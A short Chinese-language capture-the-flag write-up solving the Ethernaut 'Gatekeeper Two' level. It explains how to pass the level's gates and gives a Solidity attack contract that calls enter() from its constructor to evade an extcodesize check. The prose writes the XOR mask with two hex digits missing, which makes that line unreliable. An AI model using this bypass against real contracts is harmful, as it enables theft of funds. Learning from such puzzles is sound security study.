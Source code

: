 第一个check就是部署个合约即可。

第三个利用异或的性质，将key设置为addr ^ 0xffffffffffffff即可。

第二个check比较有意思，是利用了assembler，不过含义如字面意思。

caller()指的就是攻击合约，extcodesize(caller())指的就是攻击合约的代码长度，需要使得其长度为0。

这里在之前的magicnumber提到过，合约代码长度不会算进去构造函数的长度，所以将攻击函数直接写进构造函数即可。

```solidity
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwo {
    address levelInstance;
    
    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0) - 1  );
          IGatekeeperTwo(levelInstance).enter(key);
      }
    }
}
```

由于新版本的solidity都会内置整数溢出检查，所以在攻击合约中`uint64(0) - 1`需要用uncheck修饰。
